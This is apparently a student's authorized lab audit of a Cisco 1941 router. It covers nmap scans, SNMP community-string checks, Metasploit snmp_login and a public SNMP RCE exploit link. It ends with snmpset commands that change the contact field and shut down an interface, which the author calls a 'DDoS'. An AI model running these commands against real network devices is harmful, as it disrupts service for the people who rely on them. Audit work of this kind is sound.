## Explicit Permission to test their Cisco Router-Switch system in Haaga Helia Lab Environment

# Security Audit of Cisco Router-Switch System

## x. 

I know from physical access that there are 2 routers and 3 switches on this network. I also have the SSH access to normal user on these switches. They all run Cisco OS and I am simply looking for vulnerabilities.

<img src="0.png" alt="img"/>

The router model is `C1900 Integrated Services Router` from Cisco 1941 series

The OS version is `15.5(3)M5`

Image type: `universalk9`

##### Note 

This version is rather old (last update in 2019) and not up to date and potentially vulnerable. 

## a. Scanning

I am on the same host network as the Cisco router on subnet 172.28.x.x

My Kali Linux is on bridged adapter on the same subnet. 
I began by conducting an nmap scan on the target device using `nmap -A -Pn -T4 -vv -p- <target>`

<img src="1.png" alt="img"/>

The only open port was SSH on port 22. After feeding the image to ChatGPT 5.0 for deciphering, some details from the image include `1024 bit RSA`, `OS: IOS`, `IOS 12.4-15.x version`, `Vendor: Cisco Systems, Inc.`

But we already know this is a genuine Cisco device of model 1900 series and is running version 15.5(3).

I tried again using `sudo nmap -sS -p- -T4 --reason --max-retries 2 <target>` just to make sure I got all tcp ports along with sudo command.

<img src="2.png" alt="img"/>

This time it showed a lot more ports but they were mostly filtered.

I tried one more nmap with UDP ports `sudo nmap -sU --top-ports 200 --reason --max-retries 2 <target>`

<img src="3.png" alt="img"/>

Now there's more ports open, although I cannot be sure they mean anything yet.

Right now the main ports that are open are port: `22 ssh`, `123 ntp`, `161 snmp`

I began by looking at CVEs on the internet for Cisco routers and stumbled upon one regarding the 161 snmp port: https://www.cvedetails.com/cve/CVE-2017-6743/ 

This one is a buffer overflow vulnerability for remote code execution. I first must confirm that the snmp port works.`snmpwalk -v2c -c public 172.28.200.2 1.3.6.1.2.1.1.5.0` shows if SNMP v2 works and if this returns a public string, which it does: `iso.3.6.1.2.1.1.5.0 = STRING: "Lab-R2.tielab.haaga-helia.fi"` it will open up an attack vector.

<img src="4.png" alt="img"/>

## b. Exploitation

Now that we know it is potentially vulnerable to snmp exploits, we will do some confirmation with Metasploit.

`use auxiliary/scanner/snmp/snmp_login` will help me confirm my suspicion that it is vulnerable if it completes.

<img src="5.png" alt="img"/>

It has successfully completed and It says `LOGIN SUCCESSFUL public access level read-only` and validated the community string. This system is now very highly likely vulnerable.

However, upon browsing the internet and searching for an exploit I have not found an exploit and would need to write one myself which is very unlikely because I do not have the knowledge related to Cisco IOS. I only found a python exploit on Github that exploits the 15.1(4)M12a version is an older version and this is updated. 

Source: https://github.com/artkond/cisco-snmp-rce

I do not believe I can customize the exploit to work on the newer system so the risk remains relatively low. However, since we have the private string we can use it to do a simple DDoS attack.

Iterating through the OIDs using snmpwalk we can find different identifiers for the services and info on the router.

Read through all available OIDs
`snmpwalk -v 2c -c private 172.28.200.3`

Read through sysContact email
`snmpget -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0`

Change sysContact email
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0 s "admin@example.com"`

Read strings for the services available
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.2`

Read which services have admin enabled:
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7`

Turning off the ifAdminStatus interface on router, not allowing traffic to be sent or received
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7.3 i 2`

Now we cannot get in contact with the router anymore and have succesfully DDoSed it on the network.


## c. Summary

The Cisco router is running an outdated OS 15.5(3)M5 with SNMP v1 and v2c enabled using the default public community string. The SNMP port is open, making the device potentially vulnerable to CVE-2017-6743. There was an outdated exploit for version 15.1(4)M12a which does not work on the current IOS system, thus the system presents only a low risk attack vector due to outdated firmware and open ports. 

A threat actor would need physical access to the network and also know the password for the network in order to be able to interact with the ports, thus I label this as low risk and unlikely to be hacked. Nonetheless the right precautions should be taken as they can still DDoS the routers if the SNMP ports are online and misconfigured. 





References:
https://www.reddit.com/r/netsec/comments/7oawj2/

cisco_ios_snmp_remote_code_execution_cve20176737/

https://nvd.nist.gov/vuln/detail/cve-2017-6743

https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-20170629-snmp.html


